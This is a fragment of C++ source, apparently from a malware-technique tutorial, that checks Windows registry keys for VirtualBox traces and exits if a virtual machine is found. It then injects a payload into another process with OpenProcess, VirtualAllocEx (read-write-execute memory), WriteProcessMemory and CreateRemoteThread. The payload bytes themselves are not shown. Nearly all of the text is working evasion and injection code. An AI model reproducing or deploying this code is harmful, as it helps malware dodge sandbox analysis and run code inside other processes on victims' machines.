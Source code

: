 ```cpp
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  if (reg_key_ex(HKEY_LOCAL_MACHINE, "HARDWARE\\ACPI\\FADT\\VBOX__")) {
    printf("VirtualBox VM reg path value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
    "SystemProductName", "VirtualBox")) {
    printf("VirtualBox VM reg key value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
    "BiosVersion", "VirtualBox")) {
    printf("VirtualBox VM BIOS version detected :(\n");
    return -2;
  }

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

